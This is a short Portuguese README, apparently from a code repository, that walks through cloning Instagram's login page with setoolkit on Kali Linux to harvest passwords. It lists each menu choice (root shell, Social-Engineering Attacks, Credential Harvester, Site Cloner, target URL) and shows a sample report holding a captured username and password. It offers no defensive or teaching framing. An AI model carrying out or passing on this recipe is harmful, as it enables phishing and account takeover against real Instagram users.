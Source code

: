 # Phishing para captura de senhas do Instagram

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` 1) Social-Engineering Attacks ```
- Vetor de ataque: ``` 2) Web Site Attack Vectors ```
- Método de ataque: ``` 3) Credential Harvester Attack Method ```
- Método de ataque: ``` 2) Site Cloner ```
- IP address for the POST back in Harvester/Tabnabbing [192.168.x.x]: ``` Enter ```
- URL para clone: ``` https://www.instagram.com/ ```

### Resutados

![Alt text](./passwd.png "Optional title")

### Relatório

É possível encontrar o relatório através do caminho exibido abaixo:

```
/root/.set/reports/2024-11-09 17:09:39.030491.xml
```
Exemplo do relatório em xml:

```
<?xml version="1.0" encoding='UTF-8'?>
<harvester>
   www.instagram.com/
   <url>      <param>enc_password=#PWD_INSTAGRAM_BROWSER:0:1731186196:P@ssw0rd</param>
      <param>caaF2DebugGroup=0</param>
      <param>loginAttemptSubmissionCount=1</param>
      <param>optIntoOneTap=false</param>
      <param>queryParams={}</param>
      <param>trustedDeviceRecords={}</param>
      <param>username=luizfranca</param>
   </url>
</harvester>
```
